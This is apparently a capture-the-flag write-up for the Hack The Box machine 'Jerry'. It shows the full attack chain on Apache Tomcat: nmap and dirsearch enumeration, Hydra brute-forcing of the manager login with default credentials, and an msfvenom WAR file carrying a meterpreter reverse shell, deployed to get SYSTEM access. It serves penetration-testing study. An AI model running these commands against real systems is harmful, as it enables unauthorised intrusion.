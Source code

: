 ## ---------------->> Jerry <<--------------

// We will start with nmap scan 

    $ nmap -sV -A -Pn -T4 10.10.10.95 -p-
-------

    Nmap scan report for 10.10.10.95
    Host is up (0.19s latency).
    Not shown: 65534 filtered ports
    PORT     STATE SERVICE VERSION
    8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
    |_http-favicon: Apache Tomcat
    |_http-open-proxy: Proxy might be redirecting requests
    |_http-server-header: Apache-Coyote/1.1
    |_http-title: Apache Tomcat/7.0.88
    
// Navigating to http://10.10.10.95:8080/ 

![Image 1]()

// Searching for interesting directories with [dirsearch](https://github.com/maurosoria/dirsearch)(By maurosoria)

    $ python3 dirsearch.py -u http://10.10.10.95:8080/ -t 100
------

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 100 | Wordlist size: 10903

    Output File: /home/kali/Desktop/Tools/dirsearch/reports/10.10.10.95/_21-08-13_13-30-26.txt

    Error Log: /home/kali/Desktop/Tools/dirsearch/logs/errors-21-08-13_13-30-26.log

    Target: http://10.10.10.95:8080/

    [13:30:27] Starting: 
    [13:30:53] 400 -    0B  - /\..\..\..\..\..\..\..\..\..\etc\passwd[13:30:54] 400 -    0B  - /a%5c.aspx
    [13:31:20] 302 -    0B  - /docs  ->  /docs/
    [13:31:22] 200 -   19KB - /docs/
    [13:31:23] 302 -    0B  - /examples  ->  /examples/
    [13:31:23] 200 -    1KB - /examples/
    [13:31:23] 200 -    7KB - /examples/servlets/index.html
    [13:31:24] 200 -  637B  - /examples/servlets/servlet/CookieExample
    [13:31:24] 200 -  947B  - /examples/servlets/servlet/RequestHeaderExample
    [13:31:24] 200 -   21KB - /favicon.ico
    [13:31:25] 200 -  722B  - /examples/jsp/snp/snoop.jsp
    [13:31:27] 401 -    2KB - /host-manager/html
    [13:31:27] 302 -    0B  - /host-manager/  ->  /host-manager/html
    [13:31:29] 200 -   11KB - /index.jsp
    [13:31:33] 302 -    0B  - /manager  ->  /manager/
    [13:31:33] 401 -    2KB - /manager/status/all
    [13:31:34] 401 -    2KB - /manager/html
    [13:31:34] 302 -    0B  - /manager/  ->  /manager/html
    [13:31:34] 401 -    2KB - /manager/html/

    Task Completed

// Lets focus on /manager/

// Navigating to http://10.10.10.95:8080/manager/ gets us a login pop up lets try admin : admin

![Image 2]()

// Its redirect us to http://10.10.10.95:8080/manager/html 'ACCESS DENIED' html page

![Image 3]()

// Found a tomcat [list](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt) 

// now we can use [hydra](https://secnhack.in/hydra-a-brute-forcing-tool/) for brute force the login(Also can be done with BurpSuite Intruder)

    $ hydra -C tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html
--------

    Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-13 13:52:14
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 79 login tries, ~5 tries per task
    [DATA] attacking http-get://10.10.10.95:8080/manager/html
    [8080][http-get] host: 10.10.10.95   login: admin   password: admin
    [8080][http-get] host: 10.10.10.95   login: admin   password: admin
    [8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
    [8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
    1 of 1 target successfully completed, 4 valid passwords found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-13 13:52:20

// We can see its default credentials login: tomcat : s3cret

// Navigate to http-get://10.10.10.95:8080/ and click on 'Server Status' and default login credentials

![Image 4]()

// Then click on 'List applications'

![Image 5]()

// Rolling down we can see that we can upload .war files

![Image 7]()

// Lets first make .war payload with msfvenom

    $ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.173 LPORT=1444 -f war -o jerry_war.war
---------

    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 510 bytes
    Final size of war file: 2444 bytes
    Saved as: jerry_war.war

// and lets see how the jsp file inside called

    $ mkdir tmp

    $ cd tmp/

    $ unzip ../jerry_war.war 

    Archive:  ../jerry_war.war
       creating: META-INF/
      inflating: META-INF/MANIFEST.MF    
       creating: WEB-INF/
      inflating: WEB-INF/web.xml         
      inflating: biemviiajpvn.jsp   

    $ ls
    META-INF  WEB-INF  biemviiajpvn.jsp

// The file called biemviiajpvn.jsp

// So lets open a listiner on Metasploit multi/handler

    msf6> use exploit/multi/handler

    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
    payload => windows/x64/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set lport 1444
    lport => 1444
    msf6 exploit(multi/handler) > set lhost 10.10.16.173
    lhost => 10.10.16.173

    msf6 exploit(multi/handler) > exploit -j
    [*] Exploit running as background job 0.
    [*] Exploit completed, but no session was created.

    [*] Started reverse TCP handler on 10.10.16.173:1444 

// now opload the war file 

![Image 7]()

// And navigate to http://10.10.10.95:8080/jerry_war/biemviiajpvn.jspv

    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM

// We got NT/SYSTEM !!! and the flags !

    meterpreter > pwd
    C:\Users\Administrator\Desktop\flags

    meterpreter > cat '2 for the price of 1.txt'
    user.txt
    7004dbce..................

    root.txt
    04a8b36e1.................
